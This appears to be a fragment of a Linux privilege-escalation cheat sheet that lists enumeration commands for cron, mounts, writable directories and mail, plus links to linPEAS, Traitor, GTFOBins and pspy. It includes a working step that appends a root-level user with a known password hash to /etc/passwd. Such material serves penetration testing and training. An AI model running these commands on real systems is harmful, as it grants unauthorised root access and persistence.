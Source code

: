 **[On Target Machine]**  
```c
user@host$ ./suid  
```

##### Where can I live on this machine?_ Where can I read, write and execute files?
```c
/var/tmp/  
/tmp/  
/dev/shm/
```

**Any exotic file system mounts/extended attributes?**  
```c
cat /etc/fstab  
```

##### Can we write as a low-privileged user to /etc/passwd?
```c
openssl passwd -1  
i<3hacking  
$1$/UTMXpPC$Wrv6PM4eRHhB1/m1P.t9l.  
echo 'siren:$1$/UTMXpPC$Wrv6PM4eRHhB1/m1P.t9l.:0:0:siren:/home/siren:/bin/bash' >> /etc/passwd  
su siren  
id  
```
  
##### Cron.
```c
crontab –u root –l  
```
  
###### Look for unusual system-wide cron jobs:
```c
cat /etc/crontab  
ls /etc/cron
```

###### Bob is a user on this machine. What is every single file he has ever created?
```c
find / -user miguel 2>/dev/null  
```

##### Any mail?** **mbox in User $HOME directory?**  
```c
cd /var/mail/  
ls -lsaht  
```
  
**Linpease**:  
[https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS  
](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)  
**Traitor:**  
[https://github.com](https://github.com/liamg/traitor)[/](https://github.com/liamg/traitor)[liamg/traitor  
](https://github.com/liamg/traitor)  
**GTFOBins:**  
[https://gtfobins.github.io/](https://gtfobins.github.io/)  
  
**PSpy32/Pspy64:**  
[https://github.com/DominicBreuker/pspy/blob/master/README.md](https://github.com/DominicBreuker/pspy/blob/master/README.md)